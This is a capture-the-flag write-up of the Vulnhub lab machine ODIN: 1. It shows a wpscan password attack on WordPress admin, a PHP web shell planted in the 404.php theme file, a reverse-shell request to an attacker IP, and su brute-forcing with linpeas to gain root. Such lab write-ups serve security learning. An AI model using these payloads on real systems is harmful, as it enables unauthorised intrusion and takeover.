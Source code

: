 ```yaml
---
layout: post
title:  "Vulnhub - ODIN: 1"
date:   2020-12-16 21:00:00 +1100
category: hacking
---
```


## Introduction
*Difficulty: Easy  
Odin ventured to the Well of Mimir, near Jötunheim, the land of the giants in the guise of a walker named Vegtam. Mímir, who guarded the well, to allow him to drink from it, asked him to sacrifice his left eye, this being a symbol of his will to obtain knowledge*

This is [ODIN: 1](https://www.vulnhub.com/entry/odin-1,619/) from Vulnhub. 

## Ports
HTTP only.

## HTTP
It says:

>vikingarmy  
Just another Joomla site

But that's a little joke because it's actually wordpress. 

``
root@kali:/opt/vulnhub/odin# wpscan -e --url http://odin
``

**wp-scan** only finds a user called 'odin', but trying to login at *wp-admin* with any random password gives an error: 

>Unknown username. Check again or try your email address.

So that's curious. What if we try *admin*? 

>Error: The password you entered for the username admin is incorrect

Right. So *admin* exists; *odin* does not. What's up with that, *wp-scan*? Lol.

We also have some encoded strings on the blog:

>NB2HI4DTHIXS6Z3JORUHKYROMNXW2L3EMFXGSZLMNVUWK43TNRSXEL2TMVRUY2LTORZS6YTMN5RC
63LBON2GK4RPKBQXG43XN5ZGI4ZPJRSWC23FMQWUIYLUMFRGC43FOMXXE33DNN4W65JOOR4HILTU
MFZC4Z32EBZG6Y3LPFXXKIDONFRWKIDXN5ZGI3DJON2AU===

This is base32:

>https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz rockyou nice wordlist

We have this:

>SWYgeW91IGxvb2sgY2xvc2VseSwgeW91IHdvbid0IG5lZWQgaXQgaGVyZQo=

Which is base64:

>If you look closely, you won't need it here

And this:

>++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>++++++++++.+.+++++.————.+.+++++.——-.

Which appears to be brainf^%k, which translates to:

>nottuzy

Which never appears to be useful.

So a password attack on admin? Yes.

{% highlight shell %}
root@kali:/opt/vulnhub/odin# wpscan -U admin -P /usr/share/wordlists/rockyou.txt --url http://odin
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / qwerty                                                                                                        
Trying admin / ashley Time: 00:00:03 <                                                     > (20 / 14344412)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: qwerty
{% endhighlight %}

## wp-admin
One of the blog posts is called:

>Twenty Twenty: 404 Template (404.php)

Wonder if that is a hint?

We can edit the file here:

>http://odin/wp-admin/theme-editor.php?file=404.php&theme=twentytwenty

And add:

``
<?php system($_GET['cmd']);?>
``

into the upper part of the file beneath the opening html tag. We can then access the file at:

>http://odin/wp-content/themes/twentytwenty/404.php?cmd=id

And issue commands. Like a shell. Like this:

``
GET /wp-content/themes/twentytwenty/404.php?cmd=php+-r+'$sock%3dfsockopen("192.168.1.150",1234)%3bexec("/bin/sh+-i+<%263+>%263+2>%263")%3b' HTTP/1.1
``

## On the box
We can login to mysql with joomla:joomla and grab some hashes but they don't want to break easily, but there is a shortcut here. [Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) has a mode (**-a**) that will brute force **su**. And we have weak passwords:

{% highlight shell %}
[+] Testing 'su' as other users with shell using as passwords: null pwd, the username and top2000pwds
  Bruteforcing user root...                                                                                                                               
  You can login as root using password: jasmine
  Bruteforcing user osboxes...
  Bruteforcing user voldemort...
  Bruteforcing user rockyou...
  You can login as rockyou using password: rockyou
{% endhighlight %}

So really that's it; let's check it:

{% highlight shell %}
rockyou@osboxes:~$ su root
su root
Password: jasmine

root@osboxes:/home/rockyou# 
root@osboxes:/home/osboxes# cd /root
cd /root
root@osboxes:~# ls -lash
ls -lash
total 48K
4.0K drwx------  7 root root 4.0K Dec 16 03:24 .
4.0K drwxr-xr-x 23 root root 4.0K Jul  5 22:43 ..
4.0K drwx------  2 root root 4.0K Jun 24 17:24 .aptitude
4.0K -rw-------  1 root root    1 Dec  4 15:57 .bash_history
4.0K -rw-r--r--  1 root root 3.1K Dec  5  2019 .bashrc
4.0K -rw-r--r--  1 root root  109 Dec  5 08:34 bjorn
4.0K drwx------  6 root root 4.0K Dec  4 15:36 .cache
4.0K drwx------  3 root root 4.0K Dec  4 15:36 .config
4.0K drwx------  3 root root 4.0K Dec  4 15:36 .dbus
4.0K drwx------  3 root root 4.0K Dec  4 15:36 .local
4.0K -rw-r--r--  1 root root  161 Dec  5  2019 .profile
4.0K -rw-r-----  1 root root    4 Dec 16 03:24 .vboxclient-display-svga.pid
root@osboxes:~# file bjorn
file bjorn
bjorn: UTF-8 Unicode text
root@osboxes:~# cat bjorn
cat bjorn
cσηgяαтυℓαтιση

Have a nice day!


aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2g/dj1WaGtmblBWUXlhWQo=
root@osboxes:~# echo 'aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2g/dj1WaGtmblBWUXlhWQo=' | base64 -d
<ViZS5jb20vd2F0Y2g/dj1WaGtmblBWUXlhWQo=' | base64 -d
https://www.youtube.com/watch?v=VhkfnPVQyaY
root@osboxes:~# id;hostname
id;hostname
uid=0(root) gid=0(root) groups=0(root)
osboxes
root@osboxes:~#
{% endhighlight %}
